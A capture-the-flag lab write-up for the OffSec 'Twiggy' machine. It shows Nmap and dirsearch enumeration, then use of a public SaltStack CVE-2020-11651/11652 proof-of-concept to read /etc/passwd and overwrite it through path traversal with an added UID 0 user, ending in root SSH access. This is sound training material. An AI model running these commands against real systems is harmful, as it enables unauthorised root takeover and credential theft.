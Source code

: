 **OffSec Proving Ground -- Twiggy Room Write-Up**
================================================

**Overview**
------------

In this challenge, we exploited a SaltStack vulnerability (**CVE-2020-11651 / CVE-2020-11652**) in the Twiggy room. The Salt master's ZeroMQ service was exposed on ports **4505** and **4506**, allowing us to interact with the master and ultimately escalate our privileges to **root**.

* * * * *

**Enumeration**
---------------

### **Initial Scan**

We started our enumeration by scanning all ports using Nmap:

`nmap -sCV -v -T4 -p- 192.168.170.62 -oN enu/nmap-services.md`

![nmap results](.github/screenshots/twignmap.png)  

The scan revealed several services:

-   **22/tcp**: OpenSSH 7.4

-   **53/tcp**: NSD (domain)

-   **80/tcp**: nginx 1.16.1

-   **4505/tcp & 4506/tcp**: ZeroMQ (ZMQ 2.0)

-   **8000/tcp**: nginx 1.16.1

The key discovery was the presence of the **ZeroMQ** service.

* * * * *

### **Web Service Check**

We used `dirsearch` against the HTTP service:

`dirsearch -u http://192.168.170.62/`

![dir results](.github/screenshots/twigdir.png)  

Despite trying injection attacks and testing default credentials, nothing noteworthy was found on the web interface.

* * * * *

**Vulnerability Research and Exploitation**
-------------------------------------------

### **Identifying the Vulnerability**

Based on the Nmap results, we investigated the ZeroMQ service version. Research led us to **CVE-2020-11651**, a vulnerability in SaltStack that allows unauthenticated commands to the Salt master. A Python proof-of-concept exploit was publicly available and served as our entry point.

![poc](.github/screenshots/twigpoc.png)  

* * * * *

### **Running the Exploit**

We executed the exploit as follows:

`python3 zero.py --master 192.168.170.62`

![exploit-test](.github/screenshots/twigtest.png)  

The script successfully connected to the Salt master and retrieved a **root key** using the `_prep_auth_info` command.

* * * * *

### **Reading Files**

With the root key, we were able to read files from the target system. For example:

`python3 zero.py --master 192.168.170.62 -r /etc/passwd`

![read-test](.github/screenshots/twigread.png)  

This confirmed our access by returning the contents of `/etc/passwd`.

* * * * *

**Privilege Escalation**
------------------------

### **Creating a New Privileged User**

First, we generated a password hash:

`openssl passwd 123`

Then, we appended a new root user entry to our local `passwd` file:

`echo "slim:$1$r/5WEL9l$gr6/QAygoP4zISL2SSrfr1:0:0:root:/root:/bin/bash" >> files/passwd`

* * * * *

### **Overwriting the Target's `/etc/passwd`**

We uploaded the modified `passwd` file to the target system:

`python3 exploit/zero.py --master 192.168.170.62 --upload-src files/passwd --upload-dest ../../../../../../etc/passwd`

![upload-test](.github/screenshots/twigupload.png)  

The relative path allowed us to overwrite the target's `/etc/passwd`.

* * * * *

### **Obtaining a Root Shell**

Finally, we logged in as the new user:

`ssh slim@192.168.170.62`

![ssh-root](.github/screenshots/twigroot.png)  

This gave us **root access** to the machine.

* * * * *

**Conclusion**
--------------

By leveraging **CVE-2020-11651** and **CVE-2020-11652**, we were able to:

-   **Enumerate** open ports and identify exposed ZeroMQ services

-   **Exploit** the Salt master to retrieve a root key and read system files

-   **Escalate privileges** by uploading a custom `/etc/passwd` file

> 🛡️ This challenge highlights the critical importance of securing internal services and promptly patching known vulnerabilities.
